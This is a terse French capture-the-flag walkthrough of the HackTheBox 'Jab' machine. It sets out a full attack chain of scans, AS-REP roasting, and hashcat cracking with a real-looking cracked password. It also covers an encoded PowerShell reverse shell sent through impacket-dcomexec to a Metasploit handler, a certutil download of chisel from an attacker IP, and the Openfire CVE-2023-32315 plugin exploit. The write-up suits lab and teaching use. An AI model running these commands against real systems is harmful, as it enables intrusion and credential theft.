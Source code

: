   # Jab

	echo "10.10.11.4 jab.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.4 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.4 -oN nmap.txt
	
Scans classiques.

    PORT      STATE SERVICE             VERSION
    53/tcp    open  domain?
    88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2024-03-01 17:30:56Z)
    135/tcp   open  msrpc               Microsoft Windows RPC
    139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
    389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
    3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
    3269/tcp  open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
    5222/tcp  open  jabber
    5223/tcp  open  ssl/jabber
    5262/tcp  open  jabber
    5263/tcp  open  ssl/jabber
    5269/tcp  open  xmpp                Wildfire XMPP Client
    5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
    5275/tcp  open  jabber
    5276/tcp  open  ssl/jabber
    5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    7070/tcp  open  realserver?
    7443/tcp  open  ssl/oracleas-https?
    7777/tcp  open  socks5              (No authentication; connection failed)
    9389/tcp  open  mc-nmf              .NET Message Framing
    47001/tcp open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    49664/tcp open  msrpc               Microsoft Windows RPC
    49665/tcp open  msrpc               Microsoft Windows RPC
    49666/tcp open  msrpc               Microsoft Windows RPC
    49667/tcp open  msrpc               Microsoft Windows RPC
    49669/tcp open  msrpc               Microsoft Windows RPC
    49670/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
    49671/tcp open  msrpc               Microsoft Windows RPC
    49672/tcp open  msrpc               Microsoft Windows RPC
    49677/tcp open  msrpc               Microsoft Windows RPC
    49769/tcp open  msrpc               Microsoft Windows RPC
    50149/tcp open  msrpc               Microsoft Windows RPC
    50251/tcp open  msrpc               Microsoft Windows RPC
    50288/tcp open  msrpc               Microsoft Windows RPC
    50413/tcp open  msrpc               Microsoft Windows RPC
    50807/tcp open  msrpc               Microsoft Windows RPC
    50827/tcp open  msrpc               Microsoft Windows RPC
    50830/tcp open  msrpc               Microsoft Windows RPC
    50841/tcp open  msrpc               Microsoft Windows RPC


Connexion au XMPP => Dump des utilisateurs => ASREPRoast => Bruteforcing => Connexion avec DCOM : 

    sudo pidgin -d > logs.txt

    GetNPUsers.py jab.htb/ -usersfile users.txt -format hashcat -outputfile hashes.txt
    
    hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt
    
    msfconsole -x "use exploit/multi/handler;set LHOST 10.10.16.97;set LPORT 9001;run;"
    
    impacket-dcomexec -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'cmd.exe /c  powershell -e JABj...AA=='  
    


## Élévation de privilèges

Tunneling puis exploitation du CVE-2023–32315 :
    
    ./chisel_linux_1.7.7 server -reverse -p 9999
    ...
    certutil.exe -urlcache -split -f http://10.10.16.97:8080/chisel_1.7.7_windows_amd64.exe chisel.exe
    ./chisel.exe client -v 10.10.16.97:9999 R:9090:127.0.0.1:9090
    
    
Aller sur http://127.0.0.1:9090/ en utilisant les mêmes credentials pour svc_openfire puis utiliser ce .jar : https://github.com/miko550/CVE-2023-32315

Plugins => Upload Plugin

Server => Server Settings => Management Tool => Mettre "123" dans le mot de passe de l'admin (indiqué par l'auteur)
  
Aller dans "File system" puis mettre le chemin "C:\Users\Administrator\Desktop" et lire le flag.


